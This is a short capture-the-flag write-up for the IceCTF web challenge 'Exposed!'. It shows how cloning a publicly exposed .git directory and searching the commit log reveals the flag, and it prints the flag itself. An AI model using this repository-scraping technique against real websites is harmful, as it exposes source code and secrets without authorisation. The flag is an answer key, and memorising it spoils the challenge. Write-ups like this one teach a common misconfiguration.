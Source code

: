 ```yaml
---
layout: writeup
title: 'Stage 2 Web: Exposed!'
level:
difficulty:
points:
categories: []
tags: []
flag: IceCTF{secure_y0ur_g1t_repos_pe0ple}
---
```

## Challenge

John is pretty happy with himself, he just made his first [website][1]!
He used all the hip and cool systems, like NginX, PHP and Git! Everyone
is so happy for him, but can you get him to give you the flag?

## Solution

Git is a pretty big hint here, it seemed safe to assume that if he was
deploying with git, then the web directory was git.

    $ git clone http://exposed.vuln.icec.tf/
    Cloning into 'exposed.vuln.icec.tf'...
    fatal: repository 'http://exposed.vuln.icec.tf/' not found
    
    $ git clone http://exposed.vuln.icec.tf/.git
    Cloning into 'exposed.vuln.icec.tf'...
    Checking connectivity... done.
    
    # Success!
    
    $ git log -p | grep IceCTF
    -IceCTF{this_isnt_the_flag_either}
    -                    echo 'IceCTF{not_this_flag}';
    +IceCTF{this_isnt_the_flag_either}
    +                    echo 'IceCTF{not_this_flag}';
    -                echo 'Hello World! IceCTF{secure_y0ur_g1t_repos_pe0ple}';
    +                echo 'Hello World! IceCTF{secure_y0ur_g1t_repos_pe0ple}';
{: .language-console}

## Flag

    IceCTF{secure_y0ur_g1t_repos_pe0ple}



[1]: http://exposed.vuln.icec.tf/
